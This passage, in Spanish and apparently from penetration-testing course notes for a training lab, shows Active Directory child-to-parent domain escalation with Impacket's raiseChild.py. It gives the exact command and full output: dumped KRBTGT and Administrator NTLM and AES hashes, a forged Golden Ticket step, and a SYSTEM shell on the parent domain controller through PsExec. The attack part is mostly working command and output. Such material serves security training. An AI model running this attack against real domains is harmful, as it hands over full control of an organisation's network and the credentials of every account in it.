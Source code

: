 ```r
```

Impacket también tiene la herramienta [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), que automatizará la escalada del child domain al parent domain. Necesitamos especificar el domain controller objetivo y las credenciales de un usuario administrativo en el child domain; el script hará el resto. Si revisamos el output, veremos que comienza enumerando los fully qualified domain names (FQDN) del child y parent domain. Luego:

- Obtiene el SID para el grupo Enterprise Admins del parent domain
- Recupera el hash para la cuenta KRBTGT en el child domain
- Crea un Golden Ticket
- Inicia sesión en el parent domain
- Recupera credenciales para la cuenta de Administrator en el parent domain

Finalmente, si se especifica el switch `target-exec`, se autentica en el Domain Controller del parent domain a través de Psexec.

### Performing the Attack with raiseChild.py

```r
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file BnEGssCE.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service UVNb on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service UVNb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Stopping service UVNb.....
[*] Removing service UVNb.....
[*] Removing file BnEGssCE.exe.....
```
